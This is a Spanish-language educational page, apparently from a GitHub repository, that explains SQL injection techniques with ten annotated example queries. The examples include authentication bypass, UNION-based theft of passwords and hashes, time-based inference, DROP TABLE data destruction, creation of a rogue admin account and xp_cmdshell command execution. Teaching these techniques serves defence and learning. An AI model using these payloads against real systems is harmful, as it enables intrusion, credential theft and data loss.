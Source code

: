 # Inyección SQL (SQLI)

La inyección SQL (SQLI) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que no validan adecuadamente la entrada del usuario en las consultas SQL enviadas a la base de datos. Este tipo de ataque puede permitir a los atacantes acceder a información confidencial, modificar datos o incluso tomar el control de la base de datos.

## Tipos de Inyección SQL

1. **Basada en errores**: Aprovecha los mensajes de error generados por la base de datos para obtener información sobre su estructura.
2. **Basada en tiempo**: Utiliza consultas que introducen retrasos para inferir información mediante análisis de tiempos de respuesta.
3. **Basada en booleanos**: Emplea expresiones booleanas para determinar si ciertas condiciones son verdaderas o falsas.
4. **Basada en uniones**: Combina resultados de múltiples consultas utilizando la cláusula `UNION`.
5. **Basada en consultas apiladas (stacked queries)**: Permite ejecutar múltiples consultas en una sola instrucción.

## Ejemplos prácticos y explicados

### 1. Bypass de autenticación
```sql
SELECT * FROM usuarios WHERE usuario = 'admin' AND contraseña = '' OR '1'='1';
```
 Esta consulta siempre será verdadera debido a la condición `'1'='1'`, permitiendo el acceso sin credenciales válidas.

### 2. Extracción de datos
```sql
SELECT nombre, correo FROM clientes WHERE id = 1 UNION SELECT usuario, contraseña FROM administradores;
```
 Combina datos de dos tablas diferentes, exponiendo información sensible de los administradores.

### 3. Inyección basada en tiempo
```sql
SELECT * FROM productos WHERE id = 1 AND IF(SUBSTRING(nombre,1,1) = 'A', SLEEP(5), 0);
```
 Si la primera letra del nombre del producto es 'A', la consulta se retrasará 5 segundos, permitiendo extraer datos mediante análisis de tiempos.

### 4. Eliminación de datos
```sql
DELETE FROM usuarios WHERE id = 1; DROP TABLE pedidos;-- 
```
 Elimina un usuario específico y luego borra la tabla `pedidos`, causando pérdida de datos.

### 5. Creación de un usuario malicioso
```sql
INSERT INTO usuarios (usuario, contraseña, rol) VALUES ('hacker', '1234', 'admin');
```
 Inserta un nuevo usuario con privilegios de administrador en la base de datos.

### 6. Escalada de privilegios
```sql
UPDATE usuarios SET rol = 'admin' WHERE usuario = 'victima';
```
Cambia el rol de un usuario existente a administrador, otorgándole privilegios elevados.

### 7. Evasión de filtros básicos
```sql
SELECT * FROM productos WHERE nombre = 'zapato' OR 'a'='a';--';
```
Utiliza comentarios y condiciones siempre verdaderas para evadir filtros básicos de entrada.

### 8. Inyección en procedimientos almacenados
```sql
EXECUTE sp_executesql N'SELECT * FROM usuarios WHERE usuario = ''admin''; DROP TABLE logs;--';
```
Explota procedimientos almacenados para ejecutar múltiples comandos maliciosos.

### 9. Robo de hashes de contraseñas
```sql
SELECT usuario, contraseña FROM usuarios WHERE id = 1 UNION SELECT usuario, hash FROM contraseñas;
```
Extrae hashes de contraseñas almacenados en una tabla separada.

### 10. Inyección en consultas dinámicas
```sql
SELECT * FROM productos WHERE categoria = '' OR 1=1; EXEC xp_cmdshell(''whoami'');--';
```
Inyecta comandos del sistema operativo mediante funciones extendidas como `xp_cmdshell` en SQL Server.

## Tipos de bases de datos y vulnerabilidades

1. **Bases de datos relacionales**: MySQL, SQL Server, Oracle, PostgreSQL. Son las más afectadas por inyecciones SQL.
2. **Bases de datos NoSQL**: Aunque no usan SQL, pueden ser vulnerables a inyecciones de comandos (e.g., MongoDB).
3. **Bases de datos de grafos**: Neo4j puede ser vulnerable a inyecciones en sus consultas de grafos.
4. **Bases de datos de objetos**: db4o puede ser explotada mediante inyecciones en las consultas de objetos.

